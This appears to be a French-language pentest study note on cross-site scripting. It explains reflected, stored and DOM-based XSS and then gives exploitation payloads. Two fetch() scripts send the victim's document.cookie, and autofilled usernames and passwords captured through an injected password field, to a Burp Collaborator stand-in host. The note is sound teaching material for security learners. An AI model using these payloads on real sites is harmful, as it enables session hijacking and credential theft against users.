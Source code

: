 ```yaml
---
title: "12.XSS"
category: "Client"
tag: "Web"
---
```


## CheckList en pratique


## Explication de la vulnérabilité  
XSS est une vulnérabilité qui permet à un attaquant de compromettre les interactions des utilisateurs avec une application vulnérable.

Cela permet à un attaquant de contourner lE **SAME ORIGIN POLICY**, conçue pour séparer les différents sites Web les uns des autres. Les xss permettent normalement à un attaquant de se faire passer pour un utilisateur victime, d'effectuer toutes les actions que l'utilisateur est capable d'effectuer et d'accéder à ses données.

Si l'utilisateur victime dispose d'un accès privilégié à l'application, l'attaquant pourrait alors être en mesure d'obtenir un contrôle total sur toutes les fonctionnalités et données de l'application.

Les xss fonctionnent en manipulant un site vulnérable afin qu'il renvoie du js malveillant aux utilisateurs. Lorsque le code malveillant s'exécute dans le navigateur d'une victime, l'attaquant peut totalement compromettre son interaction avec l'application.

## Les différentes catégories de XSS

- `XSS réfléchie`, où le script malveillant provient de la requête HTTP actuelle.
- `XSS stockée`, où le script malveillant provient de la base de données du site Web.
- `XSS basée sur DOM`, où la vulnérabilité existe dans le code côté client plutôt que dans le code côté serveur.

## XSS Réfléchie

`XSS Réfléchie` est la variété la plus simple des XSS. Cela se produit lorsqu'une application reçoit des données dans une requête HTTP et inclut ces données dans la réponse immédiate de manière dangereuse.

```html
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>alert(1)</script></p>
```

Si l'utilisateur visite l'URL construite par l'attaquant, le script de l'attaquant s'exécute dans le navigateur de l'utilisateur, dans le contexte de la session de cet utilisateur avec l'application.  
À ce stade, le script peut effectuer n'importe quelle action et récupérer toutes les données auxquelles l'utilisateur a accès.

### Impacts des XSS réfléchies

Si un attaquant peut contrôler un script exécuté dans le navigateur de la victime, il peut généralement compromettre entièrement cet utilisateur. L’attaquant peut entre autres :

- Effectuez toute action dans l'application que l'utilisateur peut effectuer.
- Afficher toutes les informations que l'utilisateur peut consulter.
- Modifiez toute information que l'utilisateur est en mesure de modifier.
- Initiez des interactions avec d’autres utilisateurs de l’application, y compris des attaques malveillantes, qui sembleront provenir de l’utilisateur victime initial.

Différents moyens par lesquels un attaquant peut inciter une victime à faire une demande qu'il contrôle :
- Placer un lien sur un site web contrôlé par l'attaquant
- Même chose sur un autre site où il peut généré du contenu
- envoyer un lien dans un mail
- Tweet

## Exploitation des vulnérabilités des scripts intersites

Pour les POC, utiliser `alert(document.domain)` pour prouver que le JS est exécuté sur le domaine courant.
Pour montrer à quel point la XSS est sévère, il peut être bon de savoir comment l'exploiter au delà de ça.

### Exploiter les scripts intersites pour voler des cookies
On peut exploiter les vulnérabilités de XSS pour envoyer les cookies de la victime vers notre propre domaine, puis injecter manuellement les cookies dans le navigateur et usurper l'identité de la victime.

En pratique, cette approche présente quelques limites importantes :

- La victime n'est peut-être pas connectée.
- De nombreuses applications masquent leurs cookies à JavaScript à l'aide de l'indicateur `HttpOnly`.
- Les sessions peuvent être verrouillées sur des facteurs supplémentaires tels que l'adresse IP de l'utilisateur.
- La session peut expirer avant que vous puissiez la détourner.

```javascript
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
**Penser à utiliser RequestBin/pipedream** en attendant d'avoir la version pro de burp pour le http listener.

## Exploiter les scripts intersites pour capturer les mots de passe

De nos jours, de nombreux utilisateurs disposent de gestionnaires de mots de passe qui remplissent automatiquement leurs mots de passe. 

On peut en profiter en créant une saisie de mot de passe, en lisant le mot de passe rempli automatiquement et en l'envoyant à notre propre domaine.

Cette technique évite la plupart des problèmes liés au vol de cookies et peut même accéder à tous les autres comptes où la victime a réutilisé le même mot de passe.

```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```